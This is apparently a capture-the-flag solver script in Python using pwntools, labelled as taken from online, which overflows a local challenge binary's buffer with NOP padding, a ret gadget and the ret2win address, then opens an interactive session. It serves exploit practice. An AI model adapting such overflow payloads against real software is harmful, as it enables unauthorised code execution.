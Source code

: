 Solver 2 (from online)

```python
from pwn import *

# Set up pwntools to work with this binary
elf = context.binary = ELF('game_12dcfaa0-ade2-43fe-b79f-288b3b9560f8')
p = process()

# Number of padding bytes (to offset RIP)
padding = 30

# Crafting payload, contains x nops of padding, ret, address of ret2win using symbols function
payload = flat(
	asm('nop') * padding,
	next(elf.search(asm('ret'))),
	elf.symbols['ret2win'],
)

# Writing payload to file on same directory
f = open("payload", "wb")
f.write(payload)

# Send payload after asked for input
p.sendlineafter(">", payload)

p.interactive()
```